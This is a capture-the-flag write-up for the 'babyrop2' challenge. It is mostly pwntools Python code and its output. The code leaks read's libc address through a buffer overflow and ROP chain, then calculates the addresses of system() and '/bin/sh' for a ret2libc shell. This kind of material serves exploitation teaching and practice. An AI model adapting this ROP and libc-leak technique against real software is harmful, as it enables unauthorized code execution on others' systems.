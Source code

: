 Using `locate libc.so.6` to check the path of our library

For my case is at `/usr/lib/x86_64-linux-gnu/libc.so.6`

Remember C function address can be different but the distance between is fixed

Using pwntools:
```python
from pwn import *
context.clear(arch='amd64')
elf = ELF('./babyrop2')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
main = elf.symbols['main']
read_got = elf.symbols['got.read']
format_string = next(elf.search('%s'))
system_offset = libc.symbols['read'] - libc.symbols['system']
print system_offset
```
Output:
```
[*] '/root/Downloads/harekaze/rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
678656
```
So the system address is located at `read_address - system_offset`
```python
p = elf.process()
p.sendline('a'*40+str(r))
p.recvuntil("\n")
read_address = p.recvuntil("!\n")[:-2]			# Get the string
read_address = u64(read_address + "\x00\x00")	# Add 2 null byte because need 8 bytes
												# u64 to convert back to integer
print hex(read_address - system_offset)			# Calculate system address
```
Every thing is ready except we need "/bin/sh" to put in `system()`

We can find it at our C library, and need to calculate the address as well:
```python
from pwn import *
context.clear(arch='amd64')
elf = ELF('./babyrop2')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
main = elf.symbols['main']
read_got = elf.symbols['got.read']
format_string = next(elf.search('%s'))
system_offset = libc.symbols['read'] - libc.symbols['system']
sh_offset = libc.symbols['read'] - next(libc.search('/bin/sh'))	# Calculate the distance between
r = ROP(elf)
r.printf(format_string,read_got)
p = elf.process()
p.sendline('a'*40+str(r))
p.recvuntil("\n")
read_address = p.recvuntil("!\n")[:-2]
read_address = u64(read_address + "\x00\x00")
print hex(read_address - system_offset)
print hex(read_address - sh_offset)		# Calculate binsh address
```